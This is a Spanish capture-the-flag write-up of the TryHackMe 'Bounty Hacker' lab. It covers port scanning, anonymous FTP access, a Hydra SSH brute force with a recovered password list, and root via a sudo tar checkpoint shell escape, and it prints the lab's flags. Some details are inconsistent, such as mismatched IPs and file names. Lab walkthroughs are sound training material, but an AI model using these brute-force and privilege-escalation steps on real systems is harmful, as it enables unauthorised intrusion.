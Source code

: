 ```yaml
---
title: TryHackMe-BountyHacker
---
```

<dt>WriteUp-CTF</dt>
<dd>Valente2023intuicion</dd>

<div style="font-size: 36px; letter-spacing: 5px; color: #B40404;">☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠</div>

# [](#header-1)1).Estructura del entorno de trabajo... 

* Maquina victima desplegada por tryhackmee 10.10.4.103.
![imagen](/images/Bounty_Hacker/1.png)  

* Maquina atacante 192.168.1.77
![imagen](/images/Bounty_Hacker/neofetch.png)

`Para establecer la comunicacion es nesesario conectarnos a la vpn proporcionada por tryhackmee con la herramienta openvpn`

![imagen](/images/Bounty_Hacker/openvpn.png)

<dt>OpenVPN</dt>
<dd>software de código abierto que permite crear y gestionar conexiones VPN seguras y cifradas a través de internet.</dd>

```js
#sudo openvpn eduardolazaro.ovpn

El archivo puede incluir información como la dirección IP del servidor VPN, el protocolo de conexión, el puerto utilizado y las credenciales de autenticación necesarias para acceder al servidor. Al utilizar el comando "openvpn" con este archivo de configuración, se establecerá una conexión VPN segura y cifrada con el servidor remoto.
```
![imagen](/images/Bounty_Hacker/ping.png)

`Por las trazas TTL=63  podemos presumir que nos estamos enfrentando a una maquina linux.`

<div style="font-size: 36px; letter-spacing: 5px; color: #B40404;">☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮</div>

<div style="font-size: 36px; letter-spacing: 5px; color: #B40404;">☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠</div>

# [](#header-1)2).Descubrimiento y enumeracion de puertos con nmap... 

`Realizamos un escaneo sencillo a la ip con nmap`

```js
#sudo nmap -n 10.10.60.74 -oG allports
```

![imagen](/images/Bounty_Hacker/nmapallports.png)

| PORT         | STATE             |SERVICE|
|:-------------|:------------------|:------|
| 21/TCP       | open              | ftp   |
| 22/TCP       | Open              | ssh   |
| 80/TCP       | Open              | http  |

`Con algunos parametros diferentes de la herramienta nmap podemos llegar a profundisar mas.`

```js
#sudo nmap -sC -sV 10.10.60.74 -oG allports
"-sC": Utiliza los scripts de Nmap más comunes para buscar vulnerabilidades en los servicios que se encuentran en los puertos abiertos.
"-sV": Detecta la versión de los servicios que se ejecutan en los puertos abiertos.
"-oG allports": Genera una salida en formato "grepable" que se puede utilizar para filtrar los resultados y extraer información específica.
```
![imagen](/images/Bounty_Hacker/nmaptargeted.png)

`Esto nos arrojo la siguiente informacion`

<dt>ftp-anon: Anonymous FTP login allowed (FTP code 230)</dt>
<dd>La conexión anónima es un tipo de autenticación que permite acceder a  un servidor FTP sin proporcionar un nombre de usuario y una contraseña.  En lugar de ello, el cliente se conecta con un nombre de usuario y una  contraseña predeterminados, comúnmente Anonymous. </dd>

```js
#{ftp 10.10.60.74} {Anonymous}
```

`login exitoso.`

<div style="font-size: 36px; letter-spacing: 5px; color: #B40404;">☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮</div>

<div style="font-size: 36px; letter-spacing: 5px; color: #B40404;">☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠☠</div>
# [](#header-1)3).Ataques de fuerza bruta con diccionarios 

`listando con "ls" nos encontramos con dos archivos que procederemos a descargar a nuestra maquina. con el comando get`
 - locks.txt
 - task.txt

![imagen](/images/Bounty_Hacker/get.png)

`vizualizamos el contenido de los 2 .txt con "cat"`

![imagen](/images/Bounty_Hacker/cattask.png)
- Clara referencia a el anime Cowboy beboop y posible nombre de usuario "lin".

![imagen](/images/Bounty_Hacker/catlocks.png)
- Posible lista de contraseñas para la sesion ssh.

`Antes de realizar un ataque con congunto de palabras optenidas,Verermos que clase de servicio esta desplegando en el puerto 80 y una posterior enumeracion de directorios con gobuster`

![imagen](/images/Bounty_Hacker/web.png)

<dt>GoBuster</dt>

<dd>Herramienta de línea de comandos desarrollada en Go que se utiliza para encontrar
archivos y directorios ocultos en un servidor web. GoBuster realiza un ataque de fuerza bruta en el servidor web,
lo que significa que intenta adivinar nombres de archivos y directorios mediante la combinación de palabras de un diccionario.</dd>

```js
#sudo gobuster -u http://10.10.60.74 -w /home/valente/Documentos/diccionarios/SecList/Discovery/web-Content/common.txt
"-u" http://10.10.60.74" especifica la URL del sitio web que se va a analizar.
"-w" indica el archivo de diccionario que se utilizará para realizar la enumeración. En este caso, el archivo "common.txt" 
```

![imagen](/images/Bounty_Hacker/gobusterdir.png)

`Resultado exitoso`

- 10.10.60.74/images/

![imagen](/images/Bounty_Hacker/images.png)

- crew.jpg

![imagen](/images/Bounty_Hacker/crew.jpg)

`Con ayuda de la herramienta hydra intentaremos ataques de fuerza burta intentrando entrar al servidor SSH de la maquina victima con el diccionario "locks.txt"`

<dt>Hydra</dt>
<dd>Herramienta de prueba de penetración (penetration testing) utilizada para realizar ataques de fuerza bruta a servicios de autenticación y protocolos de red. La herramienta es capaz de realizar ataques de fuerza bruta contra diferentes tipos de sistemas, incluyendo FTP, SSH, Telnet, SMTP, HTTP, POP3 y otros.</dd>

```js
#hydra -l lin -p locks.txt 10.10.60.74 -t 4 ssh
El comando se utiliza para realizar un ataque de fuerza bruta a un servidor SSH en la dirección IP 10.10.4.103. Aquí está la descripción de los argumentos utilizados en el comando: 

-l lin: Especifica el nombre de usuario "lin" que se utilizará en el ataque.

-p look.txt: Especifica el archivo "look.txt" que contiene una lista de contraseñas que se usarán en el ataque.

10.10.4.103: Especifica la dirección IP del servidor SSH que se atacará.

-t 4: Especifica el número de hilos (4) que se utilizarán en el ataque.
```

![imagen](/images/Bounty_Hacker/hydra.png)

`Arrojandonos un resultado exitoso encontrando una contraseña valida para el usuario lin al cual nos procederemos a conectar con la contraseña correcta.`

```js
#ssh lin@10.10.60.74
RedDr4gonSynd1vat3
```

![imagen](/images/Bounty_Hacker/lin.png)

`y con esto la primera flag de usuario.`

![imagen](/images/Bounty_Hacker/flaguser.png)

- Flag_User.txt THM{CR1m3_SyNd1C4T3} 

![imagen](/images/Bounty_Hacker/roottxt.png)

```js
#sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
Este comando utiliza el programa tar para crear un archivo de archivos, pero en lugar
de crear un archivo real, se está creando un archivo virtual que se redirige a /dev/null. 
/dev/null es un archivo especial en Unix y Linux que descarta todos los datos que se escriben en él,
lo que significa que no se guardará ningún archivo real. 
Sin embargo, el propósito real de este comando es establecer un punto de control mediante
el uso de las opciones --checkpoint y --checkpoint-action. La opción 
--checkpoint especifica la frecuencia con la que se deben mostrar 
los mensajes de punto de control y la opción --checkpoint-action 
especifica la acción que se debe ejecutar en cada punto de control.
En este caso, la acción de punto de control específica es exec=/bin/sh, 
lo que significa que se ejecutará una shell cada vez que se alcance un punto de control.
Es importante tener en cuenta que esta acción de punto de control se ejecuta con 
los permisos del usuario root, lo que significa que cualquier usuario que tenga acceso a
ejecutar este comando puede obtener acceso de root en el sistema. 
Por lo tanto, es importante tener mucho cuidado al usar este comando y solo usarlo 
si se entienden las implicaciones y se considera que es necesario.
```
- Flag_root.txt THM{80un7y_H4ck3r 

<div style="font-size: 36px; letter-spacing: 5px; color: #B40404;">☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮☮</div>
